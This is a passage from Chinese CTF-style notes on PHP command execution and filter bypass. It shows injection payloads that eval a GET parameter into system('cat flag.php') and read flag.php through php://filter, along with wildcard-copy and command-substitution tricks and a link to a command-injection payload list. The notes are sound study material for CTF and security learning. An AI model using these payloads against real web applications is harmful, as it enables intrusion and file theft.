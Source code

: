     `c=eval($_GET[1]);&1=system('cat flag.php');`

    `c=include%0a$_GET[1]?>&1=php://filter/read=convert.base64-encode/resource=flag.php`

* 通配符

    如果要对含有关键字的文件进行访问，可以使用`cp`命令结合通配符将文件拷贝到新的文件中，访问新建文件读取源文件内容

    ```php

    cp fla?.php 1.txt

    url/1.txt

    ```

* 移花接木

    既然可以命令执行，那就把对应文件中的内容`cp`到新的文档中，然后对文档内容输出，间接读取

* grep 

    `grep -r <搜索内容> <路径>`递归寻找内容

* 无权限

    有文件但是输出不了内容用`ls -al`看一下内容和权限，可能是没权限的原因，`chmod`一下

* 命令替换

    1. 在Linux中，反引号（``）用于执行命令替换，也被称为"backticks"。命令替换的原理如下：

        当你使用反引号括起一个命令时，系统会首先执行这个命令，并用它的输出结果替换整个反引号表达式。

        例如：

        ```bash
        Copy code
        result=`ls -l`
        ```

    2. `$()`命令替换
        
        除了反引号，还可以使用$()语法来实现相同的命令替换。上述例子可以写成：

        ```bash
        Copy code
        result=$(ls -l)
        ```
        
        这两种语法在功能上是等价的，但是$()更容易读取，并且可以嵌套使用，而反引号在嵌套时可能会引发混淆。

# 命令执行

## 概述

命令执行用到的方法在其他板块中也有，主要就是绕过过滤，包含的内容可能是空格绕过，php特性，shell特性，无参RCE，或者无字母RCE

[command execution cheat sheet](https://github.com/payloadbox/command-injection-payload-list)

## 常见方法
